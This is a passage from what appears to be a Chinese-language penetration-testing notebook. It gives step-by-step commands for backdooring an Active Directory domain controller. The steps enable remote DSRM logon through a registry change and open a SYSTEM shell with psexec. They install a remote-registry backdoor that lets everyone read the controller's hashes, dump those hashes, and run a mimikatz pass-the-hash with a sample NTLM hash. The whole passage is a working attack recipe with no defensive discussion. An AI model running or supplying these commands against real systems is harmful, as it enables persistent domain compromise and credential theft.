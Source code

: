 	>reg add HKLM\System\CurrentControlSet\Control\Lsa /v DSRMAdminLogonBehavior /t REG_DWORD /d 2
	允许DSRM账户远程访问
	https://github.com/HarmJ0y/DAMP
	效果：域内任何用户可读取域控hash
	system权限执行
	>psexec.exe -accepteula -s -i -d cmd.exe
	域控制器执行
	PS>Add-RemoteRegBackdoor -ComputerName 域控名 -Trustee 'S-1-1-0' –Verbose
![image](/assets/Pentest_Note/master/img/478.png)

	域内机器执行
	https://raw.githubusercontent.com/HarmJ0y/DAMP/master/RemoteHashRetrieval.ps1
	PS> Get-RemoteLocalAccountHash -ComputerName 域控 –Verbose
![image](/assets/Pentest_Note/master/img/479.png)

	域控上执行
	>reg add HKLM\System\CurrentControlSet\Control\Lsa /v DSRMAdminLogonBehavior /t REG_DWORD /d 2
![image](/assets/Pentest_Note/master/img/480.png)

	PTH攻击，mimikatz需以管理员身份启动
	>mimikatz "privilege::debug" "sekurlsa::pth /domain:dc /user:Administrator /ntlm:9f1770aebd442b6b624bdfe9cbc720dd" exit
![image](/assets/Pentest_Note/master/img/481.png)